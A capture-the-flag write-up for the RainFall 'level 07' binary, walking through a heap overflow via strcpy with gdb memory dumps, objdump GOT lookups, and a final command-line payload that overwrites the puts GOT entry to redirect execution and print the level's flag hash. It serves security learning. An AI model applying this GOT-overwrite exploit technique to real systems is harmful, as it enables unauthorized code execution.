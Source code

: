# level 07

The program takes two parameters and print "~~":

```bash
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 dsa
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 dsaasdasd
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 dsaasdasd saddsa
~~
```

By looking at the code, we can see that the program does two `strcpy`. It copies the two parameters respectively in two malloc'd buffer. There is also a function `m`, that print the content of a global variable `c` and the time elapsed between 1970.

We know that `strcpy` is vulnerable. It will copy bytes until it reaches a '\0'. We can override the buffer of the second `strcpy`.

We first look what addresses of malloc'd buffers are:

```bash
(gdb) r aaaa bbbb
Starting program: /home/user/level7/level7 aaaa bbbb

Breakpoint 1, 0x08048536 in main ()
(gdb) x $eax
0x804a008:      0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x080485d3 in main ()
(gdb) x/16wx 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x61616161      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x62626262      0x00000000      0x00000000      0x00020fc1
```

We can see that our buffer begin at address 0x804a018. During the 2nd `strcpy`, the address is taken at 0x804a028 + 4 (0x0804a038).

We try to overwrite this address, so another buffer will be passed to `strcpy`:

```bash
(gdb) r $(python -c "print '\x41' * 20 + '\x42' * 4") CCCC
Starting program: /home/user/level7/level7 $(python -c "print '\x41' * 20 + '\x42' * 4") CCCC

Breakpoint 1, 0x080485a5 in main ()
(gdb) x/16wx 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x42424242      0x00000000      0x00000011
0x804a038:      0x00000000      0x00000000      0x00000000      0x00020fc1
```

We can now replace this value by the address of `puts` with the address of `m`. When calling `puts` at the end, it will jump on `m` function.

First we retrieve the address of `puts` from the GOT:

```bash
level7@RainFall:~$ objdump -R level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
...
(gdb) x/x 0x08049928
0x8049928 <puts@got.plt>:       0x08048406
```

We will here overwrite the 0x08048406 address with the address of `m`:

```bash
level7@RainFall:~$ ./level7 $(python -c "print '\x41' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1653292834
```
